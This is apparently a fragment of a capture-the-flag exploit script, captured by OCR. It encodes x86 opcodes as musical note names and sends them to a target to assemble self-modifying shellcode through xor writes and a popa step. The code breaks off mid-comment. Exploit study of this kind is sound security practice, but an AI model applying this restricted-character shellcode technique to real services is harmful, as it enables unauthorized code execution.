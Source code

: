 ```
opcodes = {'G#1': '0x6500', 'G#0': '0x3300', 'G#3': '0x9401', 'G#2': '0xca00', 'G#5': '0x4e06', 'G#4': '0x2703', 'G#7': '0x1a', 'G#6': '0xd', 'G#9': '0x65', 'G#8': '0x33', 'G7': '0x18', 'G6': '0xc', 'G5': '0x6', 'G4': '0x3', 'G3': '0x7d01', 'G2': '0xbf00', 'G1': '0x6000', 'G0': '0x3000', 'G9': '0x60', 'G8': '0x30', 'D#8': '0x26', 'D#9': '0x4c', 'D#6': '0xa', 'A8': '0x1b', 'B4': '0xe001', 'B5': '0xc003', 'B6': '0x8007', 'B7': '0xf', 'B0': '0x1e00', 'B1': '0x3c00', 'B2': '0x7800', 'B3': '0xf000', 'B8': '0x1e', 'B9': '0x3c', 'F#0': '0x2d00', 'F#1': '0x5a00', 'F#2': '0xb400', 'F#3': '0x6801', 'F#4': '0xcf02', 'F#5': '0x9e05', 'F#6': '0x3c0b', 'F#7': '0x17', 'F#8': '0x2d', 'F#9': '0x5a', 'E9': '0x51', 'E8': '0x29', 'E5': '0x105', 'E4': '0x8102', 'E7': '0x15', 'E6': '0x20a', 'E1': '0x5100', 'E0': '0x2900', 'E3': '0x4101', 'E2': '0xa100', 'A#3': '0xe300', 'A#2': '0x7200', 'A#1': '0x3900', 'A#0': '0x1d00', 'A#7': '0x280e', 'A#6': '0x1407', 'A#5': '0x8a03', 'A#4': '0xc501', 'A#9': '0x39', 'A#8': '0x1d', 'C9': '0x40', 'C8': '0x20', 'C3': '0x1', 'C2': '0x8000', 'C1': '0x4000', 'C0': '0x2000', 'C7': '0x10', 'C6': '0x8', 'C5': '0x4', 'C4': '0x2', 'F0': '0x2b00', 'F1': '0x5500', 'F2': '0xaa00', 'F3': '0x5401', 'F4': '0xa702', 'F5': '0x4e05', 'F6': '0xb', 'F7': '0x16', 'F8': '0x2b', 'F9': '0x55', 'A1': '0x3600', 'A0': '0x1b00', 'A3': '0xd600', 'A2': '0x6b00', 'A5': '0x5703', 'A4': '0xac01', 'A7': '0xe', 'A6': '0x7', 'A9': '0x36', 'D#7': '0x13', 'D#4': '0x5d02', 'D#5': '0x5', 'D#2': '0x9800', 'D#3': '0x2f01', 'D#0': '0x2600', 'D#1': '0x4c00', 'C#9': '0x44', 'C#8': '0x22', 'C#5': '0x3604', 'C#4': '0x1b02', 'C#7': '0x11', 'C#6': '0x6b08', 'C#1': '0x4400', 'C#0': '0x2200', 'C#3': '0xe01', 'C#2': '0x8700', 'D8': '0x24', 'D9': '0x48', 'D6': '0x9', 'D7': '0x12', 'D4': '0x3b02', 'D5': '0x7604', 'D2': '0x8f00', 'D3': '0x1e01', 'D0': '0x2400', 'D1': '0x4800'}

def prepNoteString(x):
  x = int(x, 16)
  y = x & 0xff
  z = x & 0xff00
  z = z >> 8
  x = chr(z) + chr(y)
  return x

def clearStackSpot():
  loopSend("G6", 3)
  send("G1")
  send("G0")

def writePopaStackValue():
  send("F6")
  send("F6")
  send("F6")
  send("F1")
  send("F0")


def send(op):
  target.send(prepNoteString(opcodes[op]))

def loopSend(op, qt):
  for i in xrange(qt):
    target.send(prepNoteString(opcodes[op]))

'''
inc ecx ; A
xor    eax, DWORD PTR [esi+0x30] ; 3F0
'''
send("A3")
send("F0")



'''
; A1 G0 first xor
inc ecx ; A
xor    DWORD PTR [edi+0x30],eax ; 1G0

; G6 G6 G6 G1 G0 second xor write
```